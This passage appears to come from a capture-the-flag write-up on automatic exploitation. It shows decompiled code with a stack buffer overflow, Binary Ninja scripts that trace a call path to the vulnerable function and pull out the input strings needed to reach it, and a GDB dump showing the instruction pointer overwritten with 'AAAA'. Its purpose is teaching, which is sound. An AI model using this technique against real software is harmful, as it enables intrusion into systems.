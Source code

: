 ```
int32_t sub_804897b{()

{
    char const* const var_10 = "WHAT is your quest?";
    void var_7a;
    memset(&var_7a, 0, 0x6a);
    read(0, &var_7a, 0x130);
    return strncmp(data_804b04c, &var_7a, strlen(data_804b04c));
}
```

With the address of the vuln function we just need to find a function that calls it. Luckily Binary Ninja has a callee function so we can just climb those until we hit main.

```python 
func_list = []
while vuln.callers:
    func_list.append(vuln)
    vuln = vuln.callers[0]
```

Now that we have a path to a vuln function we just need to pass or fail the strncmp's to get a buffer overflow. The parameter to the strncmp is a pointer to a pointer so using read we can get the string in the binary. The code for this part is really ugly so be sure to check out the other writeups. We can also grab the buffer size by checking the stack size
```python 
func_list = func_list[::-1][1:]

inputs = []
for i in range(len(func_list) -1):
    if list(func_list[i].high_level_il.instructions)[7].operands[1].tokens[0].value == func_list[i+1].address_ranges[0].start:
        print("TAKE RIGHT, PASS")

        pointer = bv.read(list(func_list[i].high_level_il.instructions)[5].operands[0].operands[0].operands[1][0].operands[0].value.value , 4)
        addr = struct.unpack("<l",pointer )[0]
        val= b''
        while b'\x00' not in val:
            val+= bv.read(addr+ len(val),1)
        inputs.append(val)

    elif list(func_list[i].high_level_il.instructions)[6].operands[1].tokens[0].value == func_list[i+1].address_ranges[0].start:
        print("TAKE LEFT, FAIL")
        inputs.append(b"ex")
    else:
        print("BROKE")

bof_size = abs(list(og_vuln.high_level_il.instructions)[1].var.storage)
```

Running in GDB we can confirm that indeed we do have buffer overflow
```gdb 
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$eax   : 0x1
$ebx   : 0x41414141 ("AAAA"?)
$ecx   : 0x41
$edx   : 0x08048f1e  →  "It is the rabbit!"
$esp   : 0xff94dda0  →  "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA[...]"
$ebp   : 0x41414141 ("AAAA"?)
$esi   : 0xff94dfe4  →  0xff94ffb4  →  "./tmp/binary1"
$edi   : 0xf7f35b80  →  0x00000000
$eip   : 0x41414141 ("AAAA"?)
```